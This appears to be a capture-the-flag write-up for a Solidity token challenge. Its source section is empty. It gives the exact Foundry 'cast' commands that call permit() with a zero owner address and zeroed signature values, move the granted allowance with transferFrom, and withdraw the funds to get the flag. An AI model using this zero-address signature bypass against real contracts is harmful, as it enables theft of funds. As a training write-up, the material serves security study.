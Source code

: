 ```solidity
    

}
```

# Solving

So finally we need to :

- register
- call permit() with these args:`owner=address(0), spender=our_address, value=19*10**18, deadline=timestamp, v=0, r=0 and s=0`
- transfer coins
- withdraw
- get the flag


calling permit : `cast send -r $RPC --private-key $PKEY $COIN "permit(address,address,uint256,uint256,uint8,bytes32,bytes32)" $(cast address-zero) $ADDRESS 18000000000000000000 1732416543 0 $(cast to-bytes32 0) $(cast to-bytes32 0)` 

I can now check my allowance on address(0) allowance mapping : `cast call $COIN -r $RPC "allowance(address, address)(uint)" $(cast address-zero) $ADDRESS` -> 1.8e+19

I now transfer my self the coin : `cast send -r $RPC --private-key $PKEY $COIN "transferFrom(address,address,uint256)" $(cast address-zero) $ADDRESS 18000000000000000000`

And withdraw them : `cast send $COIN -r $RPC --private-key $PKEY "withdraw(uint)" 18000000000000000000` -> 18.999999999999776957



Now i can interact with instance, submit my uuid and get the flag : `SEKAI{0wn3r:wh3r3_4r3_mY_c01n5_:<}`


# References

https://docs.soliditylang.org/en/latest/solidity-by-example.html#recovering-the-message-signer-in-solidity

